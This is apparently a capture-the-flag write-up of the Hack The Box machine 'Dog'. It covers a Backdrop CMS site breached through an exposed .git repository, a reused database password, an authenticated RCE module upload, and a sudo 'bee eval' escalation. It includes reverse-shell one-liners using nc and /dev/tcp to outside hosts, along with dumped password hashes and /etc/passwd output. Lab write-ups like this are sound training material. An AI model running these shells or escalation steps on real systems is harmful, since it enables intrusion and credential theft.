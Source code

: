 1, Recon
Port scan 
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-title: Home | Dog
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Page check
![](images/Pasted%20image%2020250309185909.png)
We can get the `robots.txt`
```
#
# robots.txt
#
# This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used:    http://example.com/robots.txt
# Ignored: http://example.com/site/robots.txt
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/robotstxt.html
#
# For syntax checking, see:
# http://www.robotstxt.org/checker.html

User-agent: *
Crawl-delay: 10
# Directories
Disallow: /core/
Disallow: /profiles/
# Files
Disallow: /README.md
Disallow: /web.config
# Paths (clean URLs)
Disallow: /admin
Disallow: /comment/reply
Disallow: /filter/tips
Disallow: /node/add
Disallow: /search
Disallow: /user/register
Disallow: /user/password
Disallow: /user/login
Disallow: /user/logout
# Paths (no clean URLs)
Disallow: /?q=admin
Disallow: /?q=comment/reply
Disallow: /?q=filter/tips
Disallow: /?q=node/add
Disallow: /?q=search
Disallow: /?q=user/password
Disallow: /?q=user/register
Disallow: /?q=user/login
Disallow: /?q=user/logout
```

And from the nmap scan, we can get the `.git`
So let's use `git-dump` to catch it.
```
git-dumper http://10.10.11.58:80/.git/ ./git-repo-dump

drwxrwxr-x 8 wither wither  4096 Mar  9 19:00 .
drwxrwxr-x 4 wither wither  4096 Mar  9 19:00 ..
drwxrwxr-x 7 wither wither  4096 Mar  9 19:00 .git
-rwxrwxr-x 1 wither wither 18092 Mar  9 19:00 LICENSE.txt
-rwxrwxr-x 1 wither wither  5285 Mar  9 19:00 README.md
drwxrwxr-x 9 wither wither  4096 Mar  9 19:00 core
drwxrwxr-x 7 wither wither  4096 Mar  9 19:00 files
-rwxrwxr-x 1 wither wither   578 Mar  9 19:00 index.php
drwxrwxr-x 2 wither wither  4096 Mar  9 19:00 layouts
-rwxrwxr-x 1 wither wither  1198 Mar  9 19:00 robots.txt
-rwxrwxr-x 1 wither wither 21732 Mar  9 19:00 settings.php
drwxrwxr-x 2 wither wither  4096 Mar  9 19:00 sites
drwxrwxr-x 2 wither wither  4096 Mar  9 19:00 themes
```

From the `settings.php`, I found a interesting credit here.
`$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';`

We have get one of the valid password, so we want to try to get the valid username
In this place, `BackDropScan` would be a good choice here, or we can also use burpsuite to check them.
`https://github.com/FisMatHack/BackDropScan.git`

Then we successfully get the valid username `tiffany@dog.htb`
And we can also use `tiffany@dog.htb:BackDropJ2024DS2024` to login to the dashboard.
![](images/Pasted%20image%2020250309193246.png)
Let's enumerate the version of this CMS
I found that from `http://10.10.11.58/?q=admin/reports/status`
![](images/Pasted%20image%2020250309193358.png)
Then by searching from exploit-db, we found
`Backdrop CMS 1.27.1 - Authenticated Remote Command Execution (RCE)`
Run this exploit script, we can get a directory `shell`, we need to compress it into a .tar.gz
Install it via http://dog.htb/?q=admin/installer/manual --> "Upload a module, theme, or layout archive to install" (I had to upload it as a .tar as he did not accept .zip), then directly go to http://dog.htb/modules/shell/shell.php
Then we can get the web-shell here.
![](images/Pasted%20image%2020250309200845.png)

Then we can run the command to get the reverse shell.
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.10 443 >/tmp/f`

Then we get the reverse shell as `www-data`
Remember we have get the database credit before
`$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';`
Then we can enumerate the database here
```
-------+------------+--------+----------+----------+---------+----------------------------+------------+
| uid | name              | pass                                                    | mail                       | signature | signature_format | created    | changed    | access     | login      | status | timezone | language | picture | init                       | data       |
+-----+-------------------+---------------------------------------------------------+----------------------------+-----------+------------------+------------+------------+------------+------------+--------+----------+----------+---------+----------------------------+------------+
|   0 |                   |                                                         |                            |           | NULL             |          0 |          0 |          0 |          0 |      0 | NULL     |          |       0 |                            | NULL       |
|   1 | jPAdminB          | $S$E7dig1GTaGJnzgAXAtOoPuaTjJ05fo8fH9USc6vO87T./ffdEr/. | jPAdminB@dog.htb           |           | NULL             | 1720548614 | 1720584122 | 1720714603 | 1720584166 |      1 | UTC      |          |       0 | jPAdminB@dog.htb           | 0x623A303B |
|   2 | jobert            | $S$E/F9mVPgX4.dGDeDuKxPdXEONCzSvGpjxUeMALZ2IjBrve9Rcoz1 | jobert@dog.htb             |           | NULL             | 1720584462 | 1720584462 | 1720632982 | 1720632780 |      1 | UTC      |          |       0 | jobert@dog.htb             | NULL       |
|   3 | dogBackDropSystem | $S$EfD1gJoRtn8I5TlqPTuTfHRBFQWL3x6vC5D3Ew9iU4RECrNuPPdD | dogBackDroopSystem@dog.htb |           | NULL             | 1720632880 | 1720632880 | 1723752097 | 1723751569 |      1 | UTC      |          |       0 | dogBackDroopSystem@dog.htb | NULL       |
|   5 | john              | $S$EYniSfxXt8z3gJ7pfhP5iIncFfCKz8EIkjUD66n/OTdQBFklAji. | john@dog.htb               |           | NULL             | 1720632910 | 1720632910 |          0 |          0 |      1 | UTC      |          |       0 | john@dog.htb               | NULL       |
|   6 | morris            | $S$E8OFpwBUqy/xCmMXMqFp3vyz1dJBifxgwNRMKktogL7VVk7yuulS | morris@dog.htb             |           | NULL             | 1720632931 | 1720632931 |          0 |          0 |      1 | UTC      |          |       0 | morris@dog.htb             | NULL       |
|   7 | axel              | $S$E/DHqfjBWPDLnkOP5auHhHDxF4U.sAJWiODjaumzxQYME6jeo9qV | axel@dog.htb               |           | NULL             | 1720632952 | 1720632952 |          0 |          0 |      1 | UTC      |          |       0 | axel@dog.htb               | NULL       |
|   8 | rosa              | $S$EsV26QVPbF.s0UndNPeNCxYEP/0z2O.2eLUNdKW/xYhg2.lsEcDT | rosa@dog.htb               |           | NULL             | 1720632982 | 1720632982 |          0 |          0 |      1 | UTC      |          |       0 | rosa@dog.htb               | NULL       |
|  10 | tiffany           | $S$EEAGFzd8HSQ/IzwpqI79aJgRvqZnH4JSKLv2C83wUphw0nuoTY8v | tiffany@dog.htb            |           | NULL             | 1723752136 | 1723752136 | 1741511391 | 1741508562 |      1 | UTC      |          |       0 | tiffany@dog.htb            | NULL       |
+-----+-------------------+---------------------------------------------------------+----------------------------+-----------+------------------+------------+------------+------------+------------+--------+----------+----------+---------+----------------------------+------------+

```

And also, we need to check `/etc/passwd` to find the valid user from this machine
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
jobert:x:1000:1000:jobert:/home/jobert:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
johncusack:x:1001:1001:,,,:/home/johncusack:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false

```

`johncusack`would be our target here.
Very luckily, we can just use the credit to switch `johncusack:BackDropJ2024DS2024`

3, shell as root
I would like check `sudo -l` firstly
```
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```

By checking the help document of `bee`,  we can find something useful
```
1, eval
   ev, php-eval
   Evaluate (run/execute) arbitrary PHP code after bootstrapping Backdrop.

2, --root
 Specify the root directory of the Backdrop installation to use. If not set, will try to find the Backdrop installation automatically based on the current directory.

So the payload command would be 
get the reverse shell:
sudo /usr/local/bin/bee --root /var/www/html eval "echo shell_exec('/bin/bash -c "bash -i >& /dev/tcp/10.10.16.3/443 0>&1"');"

sudo /usr/local/bin/bee --root=/var/www/html eval "echo shell_exec('cat /root/root.txt');"
```